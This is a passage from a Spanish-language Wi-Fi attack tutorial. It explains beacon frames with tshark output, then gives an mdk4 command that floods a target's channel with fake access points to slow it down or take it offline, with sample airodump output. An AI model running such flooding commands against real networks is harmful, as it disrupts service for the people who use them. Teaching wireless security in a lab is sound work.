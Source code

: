 ```bash
 20:34:FB:B1:C5:53  5E:4B:79:63:3B:70    0    0 - 1      0        1                       
 20:34:FB:B1:C5:53  64:24:11:9E:09:DC    0    0 - 1      0        1                       
 20:34:FB:B1:C5:53  AA:D4:AC:F2:1B:10    0    0 - 1      0        1    
```

¿Sorprendente, no? Y esta lista sigue, es inmensa. Con esto conseguiremos que la red se vuelva lenta y empiece a desconectar a los clientes asociados. Incluso, podría quedar temporalmente inoperativa.

### Beacon flood mode attack

Antes de continuar con el ataque, es importante entender qué es un beacon. Un beacon es un tipo de paquete que contiene información sobre el punto de acceso, como el canal en el que se encuentra, el nombre de la red , entre otros detalles.

```bash
[root@arch ~]# tshark -i wlan0mon -Y "wlan.fc.type_subtype==0x8" 2>/dev/null
1 0.000000000 AskeyCom_d4:16:78 → Broadcast    802.11 328 Beacon frame, SN=1585, FN=0, Flags=........C, BI=100, SSID=testwifi
2 0.307210202 AskeyCom_d4:16:78 → Broadcast    802.11 328 Beacon frame, SN=1588, FN=0, Flags=........C, BI=100, SSID=testwifi
3 0.614413670 AskeyCom_d4:16:78 → Broadcast    802.11 328 Beacon frame, SN=1591, FN=0, Flags=........C, BI=100, SSID=testwifi
4 0.921614210 AskeyCom_d4:16:78 → Broadcast    802.11 328 Beacon frame, SN=1594, FN=0, Flags=........C, BI=100, SSID=testwifi
```

Y ahora bien, ¿qué es esta herramienta llamada **TShark**? Técnicamente, es Wireshark pero en terminal. Sirve para ver el tráfico de la red, más que nada para observar los paquetes que se están transmitiendo en tiempo real. Con esta herramienta se pueden analizar y filtrar por tipo de paquetes, pero esto lo veremos un poco más adelante. Lo importante por ahora es quedarnos con el concepto de este tipo de paquetes, que trae información sobre el **AP objetivo**.

Bueno, para este ataque necesitaremos la herramienta **mdk4**, que en teoría ya deberíamos haber descargado anteriormente, ya que la usamos en otro ataque. En fin, la idea es crear múltiples **APs falsas** en el mismo canal donde se encuentra nuestro AP objetivo, para así dañar el espectro de onda y afectar al AP objetivo. A continuación, te explico cómo lo haremos.

```bash
[root@arch ~]# sudo mdk4 wlan0mon b -a -s 1000 -c 7
```
Ahora analicemos este ataque. Primero, especificamos nuestra interfaz de red, previamente activado el modo monitor. Con la opción `-b` le indicamos el tipo de ataque, que en este caso es el **Beacon Flood Mode Attack**. El `-a` indica que se crearán redes WPA2, y el `-s` establece la velocidad de paquetes a emitir por segundo; por defecto, son 50. Además, por defecto, los nombres de las APs falsas son aleatorios, aunque nosotros podemos especificarlos con la opción `-f`, indicando el archivo donde estarán los nombres de las APs.

Si todo lo hicieron bien, ahora mismo debería estar corriendo el ataque. Ustedes pueden ver cómo se ve este ataque en tiempo real ejecutando `airodump-ng wlan0mon`, o también revisando la sección de conexiones Wi-Fi en su celular.

Algo así se vería:

```bash
CH  7 ][ Elapsed: 24 s ][ 2024-11-08 12:33 

 BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 0B:11:D5:AF:7F:78  -88        2        0    0   7   54   OPN              �.Qr��ZB`                     
 92:BA:C1:CE:8D:4E  -88        2        0    0   7   54   WEP  WEP         �z%�Q���G����W�=-.�u�.�Q�:�
 C6:BA:25:A5:50:CE  -88        2        0    0   7   11   WPA2 CCMP   PSK  ������q].��V��V�GcF��|�k6..��
 0E:1C:0F:5D:83:19  -88        2        0    0   7   11   WPA  TKIP   PSK  �).,��:�RCϻ���l��...�=�Y    
```